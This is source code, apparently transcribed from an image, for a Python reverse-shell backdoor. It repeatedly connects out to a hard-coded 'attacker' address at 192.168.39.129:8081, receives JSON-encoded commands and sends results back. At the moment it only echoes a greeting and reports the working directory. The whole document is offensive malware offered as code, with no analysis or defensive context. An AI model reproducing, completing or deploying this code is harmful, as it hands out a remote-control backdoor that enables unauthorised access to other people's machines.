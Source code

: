 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    while True:
        command = reliable_recv()
        print("Command Recieved")
        if command == 'say':
            print("Hello World")
        elif command == 'pwd':
            try:
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            connection_to_attacker.connect(("192.168.39.129", 8081))
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
